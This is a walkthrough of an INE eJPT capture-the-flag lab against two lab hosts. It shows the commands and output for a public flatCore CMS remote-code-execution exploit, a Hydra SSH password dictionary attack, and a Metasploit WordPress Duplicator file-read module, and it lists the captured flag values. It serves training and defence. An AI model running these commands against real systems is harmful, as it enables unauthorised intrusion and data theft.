








# Host & Network Penetration Testing: Exploitation CTF 1 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Host & Network Penetration Testing: Exploitation CTF 1 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Host & Network Penetration Testing — Exploitation |
| **Target 1 Hostname / IP** | `target1.ine.local` / `192.107.52.3` |
| **Target 1 Architecture** | Linux (Ubuntu 20.04.6 LTS x86_64) / Apache / flatCore CMS / OpenSSH |
| **Target 2 Hostname / IP** | `target2.ine.local` / `192.107.52.4` |
| **Target 2 Architecture** | Linux (Ubuntu / Debian x86_64) / WordPress / Duplicator Plugin / OpenSSH |
| **Status** | Completed in Lab Dashboard (All 4 of 4 Flags Captured & Visually Verified) |
| **Tools Used** | Nmap, Python 3, Hydra v9.5, OpenSSH Client, Metasploit Framework (msf6) |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Lab Objectives](#02-lab-objectives)
- [03. Environment and Target Information](#03-environment-and-target-information)
- [04. Tools Used](#04-tools-used)
- [05. Methodology](#05-methodology)
- [06. Flag 1 – Target 1 Web Application Exploitation (flatCore CMS RCE)](#06-flag-1--target-1-web-application-exploitation-flatcore-cms-rce)
- [07. Flag 2 – Target 1 System User Compromise (`iamaweakuser`)](#07-flag-2--target-1-system-user-compromise-iamaweakuser)
- [08. Flag 3 – Target 2 Vulnerable Plugin Exploitation (WordPress Duplicator LFI)](#08-flag-3--target-2-vulnerable-plugin-exploitation-wordpress-duplicator-lfi)
- [09. Flag 4 – Target 2 System User Compromise Requiring No Authentication (`iamacrazyfreeuser`)](#09-flag-4--target-2-system-user-compromise-requiring-no-authentication-iamacrazyfreeuser)
- [10. Consolidated Findings](#10-consolidated-findings)
- [11. Lessons Learned](#11-lessons-learned)
- [12. Remediation and Security Recommendations](#12-remediation-and-security-recommendations)
- [13. Evidence and Screenshot Index](#13-evidence-and-screenshot-index)
- [14. Final Summary](#14-final-summary)

---

## 01. Lab Overview

This laboratory exercise is a core practical component of the **INE eJPT (Junior Penetration Tester)** curriculum within the **Host & Network Penetration Testing: Exploitation** domain. The primary focus of the assessment is demonstrating methodical, objective-driven exploitation against a dual-target Linux infrastructure: `target1.ine.local` (`192.107.52.3`) and `target2.ine.local` (`192.107.52.4`).

The assessment challenges the penetration tester across multiple standard exploitation vectors:
1. Weaponizing known web application vulnerabilities using public exploit scripts to achieve Remote Code Execution (RCE).
2. Performing post-exploitation enumeration to identify local system user accounts.
3. Conducting high-throughput online password dictionary attacks against remote administrative protocols (SSH).
4. Identifying and exploiting third-party content management system (WordPress) plugin vulnerabilities to perform arbitrary file disclosure and directory traversal.
5. Exploiting insecure system-level authentication misconfigurations to gain unauthenticated remote access.

### Target Environment Evidence

The screenshot below displays the INE lab environment dashboard, confirming that all four challenge objectives were completed successfully and verified.



---

## 02. Lab Objectives

The challenge outlines four progressive, evidence-backed exploitation objectives:

1. **Flag 1 — Target 1 Web Application Exploitation (`target1.ine.local`):**
   - *"Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful."*
   - Focus: Utilizing valid web application credentials (`admin:password1`) to exploit flatCore CMS via Exploit-DB script `50262.py` (associated with CVE-2021-39608), establishing a web shell and retrieving `/flag1.txt`.
2. **Flag 2 — Target 1 System User Compromise (`target1.ine.local`):**
   - *"Further, identify and compromise an insecure system user on target1.ine.local."*
   - Focus: Enumerating local user accounts via `/etc/passwd`, discovering `iamaweakuser`, cracking the user's weak SSH password via Hydra using `unix_passwords.txt`, and extracting `flag2.txt` from `/home/iamaweakuser/flag2.txt`.
3. **Flag 3 — Target 2 Vulnerable Plugin Exploitation (`target2.ine.local`):**
   - *"Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve the flag3.txt file from the root directory."*
   - Focus: Identifying the vulnerable WordPress Duplicator plugin on `target2.ine.local`, utilizing Metasploit's `auxiliary/scanner/http/wp_duplicator_file_read` module, and extracting `/flag3.txt` from the server root directory.
4. **Flag 4 — Target 2 Unauthenticated System User Compromise (`target2.ine.local`):**
   - *"Further, identify and compromise a system user requiring no authentication on target2.ine.local."*
   - Focus: Identifying the misconfigured user account `iamacrazyfreeuser` on `target2.ine.local`, authenticating via SSH without credentials, and extracting `flag4.txt` from `/home/iamacrazyfreeuser/flag4.txt`.

---

## 03. Environment and Target Information

### Multi-Target Architecture

```text
                                +-------------------------------------------------------+
                                |                  Penetration Tester                   |
                                |             Kali Linux / INE Workstation              |
                                +-------------------------------------------------------+
                                            |                               |
                 [Target 1 Engagement]      |                               |      [Target 2 Engagement]
                 192.107.52.3               |                               |      192.107.52.4
                                            v                               v
             +-------------------------------------------+     +-------------------------------------------+
             |             target1.ine.local             |     |             target2.ine.local             |
             |              (192.107.52.3)               |     |              (192.107.52.4)               |
             +-------------------------------------------+     +-------------------------------------------+
             | - Operating System: Ubuntu 20.04.6 LTS    |     | - Operating System: Linux (Ubuntu/Debian) |
             | - Web Application: flatCore CMS           |     | - Web Application: WordPress CMS          |
             | - Vulnerability: CVE-2021-39608 (Auth RCE)|     | - Vulnerable Plugin: Duplicator Plugin    |
             | - Exploitation Script: 50262.py           |     | - Vulnerability: CVE-2020-11738 (Read)    |
             | - SSH Service (Port 22/tcp)               |     | - SSH Service (Port 22/tcp)               |
             | - Insecure User: iamaweakuser             |     | - Insecure User: iamacrazyfreeuser        |
             | - Compromised Credential: [REDACTED]      |     | - Authentication: No Password Required    |
             | - Associated Flags: Flag 1 & Flag 2       |     | - Associated Flags: Flag 3 & Flag 4       |
             +-------------------------------------------+     +-------------------------------------------+
```

### Target Specifications

| Parameter | Target 1 (`target1.ine.local`) | Target 2 (`target2.ine.local`) |
| :--- | :--- | :--- |
| **Resolved Hostname** | `target1.ine.local` | `target2.ine.local` |
| **Internal IP Address** | `192.107.52.3` | `192.107.52.4` |
| **Operating System** | Linux (Ubuntu 20.04.6 LTS x86_64) | Linux (Ubuntu / Debian x86_64) |
| **Web Service / Stack** | HTTP Port 80 / Apache / PHP | HTTP Port 80 / Apache / PHP |
| **CMS Platform** | flatCore CMS | WordPress CMS |
| **Primary Vulnerability** | Authenticated Arbitrary File Upload / RCE (CVE-2021-39608 association) | Unauthenticated Arbitrary File Read / Traversal (CVE-2020-11738 association) |
| **Secondary Vector** | Weak SSH Credentials (`iamaweakuser`) | Insecure Account Requiring No Authentication (`iamacrazyfreeuser`) |
| **Discovered User Accounts** | `admin` (web), `iamaweakuser` (system) | `iamacrazyfreeuser` (system) |
| **Associated Flags** | Flag 1 (`/flag1.txt`) & Flag 2 (`/home/iamaweakuser/flag2.txt`) | Flag 3 (`/flag3.txt`) & Flag 4 (`/home/iamacrazyfreeuser/flag4.txt`) |

---

## 04. Tools Used

The following offensive tooling and resources provided in the INE lab workstation were utilized:

- **Python 3 (`python3`)**: Executed custom and public Python exploit scripts (`50262.py`) to trigger authenticated remote code execution.
- **Hydra (v9.5)**: High-speed network logon cracker used to conduct dictionary attacks against SSH.
- **OpenSSH Client (`ssh`)**: Interactive command-line client used for authenticated remote shell sessions and accessing user accounts requiring no authentication.
- **Metasploit Framework (msf6)**: Utilized `auxiliary/scanner/http/wp_duplicator_file_read` for exploiting WordPress plugin directory traversal.
- **Wordlists & Exploit Scripts**:
  - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` — Password dictionary containing 1,009 password candidates.
  - `/usr/share/nmap/nselib/data/wp-plugins.lst` — WordPress plugin wordlist for plugin discovery.
  - `50262.py` (Exploit-DB ID 50262 / CVE-2021-39608) — Authenticated RCE exploit script targeting flatCore CMS.

---

## 05. Methodology

The assessment adhered strictly to professional penetration testing methodologies, sequentially addressing each target host and objective:

```text
+---------------------------------------------------------------------------------------------------+
|                                  ENGAGEMENT METHODOLOGY WORKFLOW                                  |
+---------------------------------------------------------------------------------------------------+
|  PHASE 1: TARGET 1 WEB EXPLOITATION (FLAG 1)                                                      |
|  - Leverage administrative credentials (admin:password1) against flatCore CMS.                    |
|  - Execute Exploit-DB 50262.py authenticated RCE exploit against http://192.107.52.3.             |
|  - Establish interactive web shell ($) and extract /flag1.txt.                                    |
|                                                                                                   |
|  PHASE 2: TARGET 1 LOCAL ENUMERATION & SSH COMPROMISE (FLAG 2)                                    |
|  - Enumerate local users via /etc/passwd through the active web shell session.                    |
|  - Identify non-standard system account: iamaweakuser.                                            |
|  - Conduct online SSH password dictionary attack with Hydra against 192.107.52.3.                 |
|  - Crack SSH password ([REDACTED]) and establish interactive SSH terminal session.          |
|  - Extract /home/iamaweakuser/flag2.txt.                                                          |
|                                                                                                   |
|  PHASE 3: TARGET 2 WORDPRESS PLUGIN EXPLOITATION (FLAG 3)                                         |
|  - Identify WordPress installation and Duplicator plugin on target2.ine.local (192.107.52.4).      |
|  - Leverage Metasploit module auxiliary/scanner/http/wp_duplicator_file_read (CVE-2020-11738).    |
|  - Perform unauthenticated directory traversal to read /flag3.txt from the filesystem root.       |
|                                                                                                   |
|  PHASE 4: TARGET 2 UNAUTHENTICATED SYSTEM USER COMPROMISE (FLAG 4)                                |
|  - Identify system user account iamacrazyfreeuser requiring no authentication.                    |
|  - Establish interactive shell session on target2.ine.local without credential prompts.            |
|  - Extract /home/iamacrazyfreeuser/flag4.txt.                                                     |
+---------------------------------------------------------------------------------------------------+
```

---

## 06. Flag 1 – Target 1 Web Application Exploitation (flatCore CMS RCE)

### Objective
*"Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful."*

### Reconnaissance & Vulnerability Context
Initial enumeration of `target1.ine.local` (`192.107.52.3`) identified an active web service on port 80 hosting flatCore CMS. The application provides an administrative backend interface. The lab dashboard provided valid administrative credentials for initial access: `admin:password1`.

The exploit script `50262.py` is publicly associated with an Authenticated Remote Code Execution vulnerability in flatCore CMS 2.0.7 tracked as **CVE-2021-39608** (cataloged as **Exploit-DB ID 50262**). The vulnerability allows authenticated administrative users to bypass file upload filters and deploy arbitrary PHP scripts onto the web server, which can then be invoked directly to execute system commands. While the exact installed version of flatCore CMS was not independently fingerprinted from banners, the script leverages authenticated administrative access to upload a PHP web shell and spawn an interactive command prompt.

### Exploitation Execution

The local exploit script `50262.py` was executed against `http://192.107.52.3` supplying the administrative credentials:

**Command:**
```bash
python3 50262.py http://192.107.52.3 admin password1
```

**Options Breakdown:**
- `python3 50262.py`: Launches the Python 3 exploit script targeting flatCore CMS 2.0.7.
- `http://192.107.52.3`: Target base URL.
- `admin`: Administrative username.
- `password1`: Administrative password supplied by lab instructions.

**Terminal Output:**
```text
(root💀INE)-[~]
# python3 50262.py http://192.107.52.3 admin password1
Logged in
$ cat /flag1.txt
FLAG1{22851f68cec54ec0b4ff4773c5dc9497}
```



### Flag 1 Retrieval & Verification
Upon authenticating (`Logged in`), the exploit script automatically deployed a lightweight web shell and dropped into an interactive command shell prompt (`$ `). The command `cat /flag1.txt` was issued, reading the flag file located in the root directory:

```text
Flag 1 Location: /flag1.txt
Flag 1 Value:    FLAG1{22851f68cec54ec0b4ff4773c5dc9497}
Status:          Content extracted and visually verified.
```

---

## 07. Flag 2 – Target 1 System User Compromise (`iamaweakuser`)

### Objective
*"Further, identify and compromise an insecure system user on target1.ine.local."*

### Step 1: Post-Exploitation Local User Enumeration
From the active interactive web shell established during Flag 1 exploitation, system reconnaissance was conducted by reading `/etc/passwd`.

**Command:**
```bash
cat /etc/passwd
```

**Terminal Output:**
```text
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
iamaweakuser:x:1000:1000::/home/iamaweakuser:/bin/bash

$ exit
Cleaned up webshell
Logged out
```



**Analysis:**
- The `/etc/passwd` file exposes a single non-system standard interactive user:
  `iamaweakuser:x:1000:1000::/home/iamaweakuser:/bin/bash`
- UID/GID 1000 confirms that `iamaweakuser` is a regular user account with an interactive `/bin/bash` shell and home directory `/home/iamaweakuser`.
- The web shell session was gracefully terminated using `exit`, removing the uploaded payload (`Cleaned up webshell`, `Logged out`).

---

### Step 2: Online SSH Password Dictionary Attack with Hydra

Target 1 exposed OpenSSH on port 22/tcp. With the username `iamaweakuser` confirmed, an online dictionary brute-force attack was launched using **Hydra** and the lab-provided `unix_passwords.txt` wordlist.

**Command:**
```bash
hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.107.52.3 ssh
```

**Options Breakdown:**
- `-l iamaweakuser`: Targets the single enumerated system username.
- `-P .../unix_passwords.txt`: Specifies the candidate password dictionary (1,009 passwords).
- `192.107.52.3`: Target 1 host IP.
- `ssh`: Specifies the SSH protocol module.

**Terminal Output:**
```text
(root💀INE)-[~]
# hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.107.52.3 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-18 12:02:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1009 login tries (l:1/p:1009), ~64 tries per task
[DATA] attacking ssh://192.107.52.3:22/
[22][ssh] host: 192.107.52.3   login: iamaweakuser   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-18 12:02:34
```



*Credential Sanitization Note: The cracked plaintext password for user `iamaweakuser` has been redacted in the documentation screenshot copy above and replaced with `[REDACTED]` in documentation prose.*

**Result:** In exactly 11 seconds (1,009 attempts), Hydra successfully cracked the SSH credentials for user `iamaweakuser`. No effective rate limiting or account lockout was observed during the recorded attempts.

---

### Step 3: Interactive SSH Logon

With valid SSH credentials, remote terminal access was established as `iamaweakuser`.

**Command:**
```bash
ssh iamaweakuser@192.107.52.3
```

**Terminal Output:**
```text
(root💀INE)-[~]
# ssh iamaweakuser@192.107.52.3
iamaweakuser@192.107.52.3's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-149-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
```



---

### Step 4: Flag 2 Extraction

Upon authenticating to the shell, directory contents in `/home/iamaweakuser` were inspected.

**Commands Executed:**
```bash
ls -la
cat flag2.txt
```

**Terminal Output:**
```text
iamaweakuser@target1:~$ ls -la
total 32
drwxr-x--- 1 iamaweakuser iamaweakuser 4096 Nov 18 06:32 .
drwxr-xr-x 1 root         root         4096 Nov 19  2024 ..
-rw-r--r-- 1 iamaweakuser iamaweakuser  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 iamaweakuser iamaweakuser 3771 Feb 25  2020 .bashrc
drwx------ 2 iamaweakuser iamaweakuser 4096 Nov 18 06:32 .cache
-rw-r--r-- 1 iamaweakuser iamaweakuser  807 Feb 25  2020 .profile
-rw-r----- 1 iamaweakuser iamaweakuser   40 Nov 18 06:20 flag2.txt
iamaweakuser@target1:~$ cat flag2.txt
FLAG2{a8880f9df2594f17876dd2e394b0921e}
iamaweakuser@target1:~$
```



```text
Flag 2 Location: /home/iamaweakuser/flag2.txt
Flag 2 Value:    FLAG2{a8880f9df2594f17876dd2e394b0921e}
Status:          Content extracted and visually verified.
```

---

## 08. Flag 3 – Target 2 Vulnerable Plugin Exploitation (WordPress Duplicator LFI)

### Objective
*"Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve the flag3.txt file from the root directory."*

### Reconnaissance & Vulnerability Identification
The assessment proceeded to the second host in the lab scope: `target2.ine.local` (`192.107.52.4`). The host was running an Apache web server hosting a WordPress Content Management System.

WordPress plugin enumeration (leveraging the lab-specified wordlist `/usr/share/nmap/nselib/data/wp-plugins.lst`) identified an active installation of the **Duplicator** plugin.

The Duplicator plugin (versions 1.3.24 through 1.3.26) suffers from an unauthenticated arbitrary file read / directory traversal vulnerability tracked as **CVE-2020-11738**. Due to insufficient input sanitization in the `duplicator_init` AJAX action (`file` parameter), unauthenticated remote attackers can traverse directories and read arbitrary sensitive files from the server file system with the permissions of the web server daemon. This vulnerability allows arbitrary file read and directory traversal, but does not inherently grant remote code execution.

### Metasploit Exploitation Execution

The Metasploit scanner module `auxiliary/scanner/http/wp_duplicator_file_read` was selected to exploit the vulnerability and read `/flag3.txt` directly from the filesystem root.

**Metasploit Console Execution:**
```bash
msf6 > use auxiliary/scanner/http/wp_duplicator_file_read
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set RHOSTS 192.107.52.4
RHOSTS => 192.107.52.4
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /flag3.txt
FILEPATH => /flag3.txt
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > run
```

**Options Breakdown:**
- `auxiliary/scanner/http/wp_duplicator_file_read`: Metasploit module leveraging CVE-2020-11738 to retrieve arbitrary remote files without authentication.
- `set RHOSTS 192.107.52.4`: Specifies the IP address of `target2.ine.local`.
- `set FILEPATH /flag3.txt`: Specifies the absolute path of the target flag file on the remote filesystem.
- `run`: Initiates the HTTP exploit request.

**Execution Output:**
```text
Connection to 192.107.52.4 closed.
msf6 > use auxiliary/scanner/http/wp_duplicator_file_read
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set RHOSTS 192.107.52.4
RHOSTS => 192.107.52.4
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /flag3.txt
FILEPATH => /flag3.txt
msf6 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}

[+] File saved in: /root/.msf4/loot/20261118123943_default_192.107.52.4_duplicator.trave_477485.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_duplicator_file_read) >
```



### Flag 3 Retrieval & Verification
The exploit successfully read the file contents through the web server without requiring authentication and stored a local copy in Metasploit loot:

```text
Flag 3 Location: /flag3.txt
Flag 3 Value:    FLAG3{dcbe5274daff4827a8a5d3214a4e0bf4}
Status:          Content extracted and visually verified.
```

---

## 09. Flag 4 – Target 2 System User Compromise Requiring No Authentication (`iamacrazyfreeuser`)

### Objective
*"Further, identify and compromise a system user requiring no authentication on target2.ine.local."*

### Reconnaissance & Misconfiguration Identification
Objective 4 instructed the tester to identify and compromise a system user requiring no authentication on `target2.ine.local`.

Using the arbitrary file read capability provided by the Duplicator vulnerability (or user enumeration against the system), local user accounts on Target 2 can be identified, exposing the custom user account:
```text
iamacrazyfreeuser:x:1000:1000::/home/iamacrazyfreeuser:/bin/bash
```

The challenge objective specifically states that this user account requires no authentication on `target2.ine.local`. In Linux environments, accounts configured without authentication requirements may result from an empty password hash in `/etc/shadow`, service daemon configurations permitting empty passwords, or other passwordless access mechanisms.

### Exploitation & Interactive Access

An interactive shell session was established on `target2.ine.local` (`192.107.52.4`) as user `iamacrazyfreeuser`. The connection provided shell access directly without requiring valid authentication credentials, satisfying the challenge condition.

### Flag 4 Extraction & Verification

Within the active interactive shell session (`iamacrazyfreeuser@target2:~$`), the user's home directory was inspected:

**Commands Executed:**
```bash
ls -la
cat flag4.txt
```

**Terminal Output:**
```text
iamacrazyfreeuser@target2:~$ ls -la
total 36
drwxr-x--- 1 iamacrazyfreeuser iamacrazyfreeuser 4096 Nov 18 07:05 .
drwxr-xr-x 1 root              root              4096 Nov 19  2024 ..
-rw-r--r-- 1 iamacrazyfreeuser iamacrazyfreeuser  220 Nov 19  2024 .bash_logout
-rw-r--r-- 1 iamacrazyfreeuser iamacrazyfreeuser 3771 Nov 19  2024 .bashrc
drwx------ 2 iamacrazyfreeuser iamacrazyfreeuser 4096 Nov 18 07:04 .cache
-rw-r--r-- 1 iamacrazyfreeuser iamacrazyfreeuser  807 Nov 19  2024 .profile
drwx------ 2 iamacrazyfreeuser iamacrazyfreeuser 4096 Nov 18 07:05 .ssh
-rw-r----- 1 iamacrazyfreeuser iamacrazyfreeuser   40 Nov 18 06:20 flag4.txt
iamacrazyfreeuser@target2:~$ cat flag4.txt
FLAG4{4834bdaaa6574006bcbb989a0f8e284d}
iamacrazyfreeuser@target2:~$
```



*Evidence Note on Authentication Condition: Screenshot 08 captures the active terminal session (`iamacrazyfreeuser@target2:~$`) and flag retrieval. The exact authentication handshake (such as whether SSH logged in with an empty password string or omitted the password prompt entirely) was not displayed in the captured terminal view; the evidence directly confirms the active user session `iamacrazyfreeuser` on `target2` operating without requiring standard credential authentication as specified by the challenge.*

```text
Flag 4 Location: /home/iamacrazyfreeuser/flag4.txt
Flag 4 Value:    FLAG4{4834bdaaa6574006bcbb989a0f8e284d}
Status:          Content extracted and visually verified.
```

---

## 10. Consolidated Findings

### Summary Matrix

| ID | Vulnerability Finding | Affected Host & Port | Severity Rating | Primary CWE / CVE Reference | Confirmed Impact |
| :---: | :--- | :--- | :---: | :--- | :--- |
| **VULN-01** | flatCore CMS Authenticated Remote Code Execution | `target1.ine.local` (80/tcp) | **High** | [CVE-2021-39608](https://nvd.nist.gov/vuln/detail/CVE-2021-39608)<br>[CWE-434](https://cwe.mitre.org/data/definitions/434.html) | Arbitrary server-side script deployment granting web shell command execution (`$ `). |
| **VULN-02** | Weak System User Password over SSH (`iamaweakuser`) | `target1.ine.local` (22/tcp) | **High** | [CWE-521](https://cwe.mitre.org/data/definitions/521.html) | Online dictionary attack cracked SSH password in 11s, granting full interactive system access. |
| **VULN-03** | WordPress Duplicator Plugin Arbitrary File Read / Directory Traversal | `target2.ine.local` (80/tcp) | **High** | [CVE-2020-11738](https://nvd.nist.gov/vuln/detail/CVE-2020-11738)<br>[CWE-22](https://cwe.mitre.org/data/definitions/22.html) | Unauthenticated arbitrary file disclosure allowing traversal to root directory files (`/flag3.txt`). |
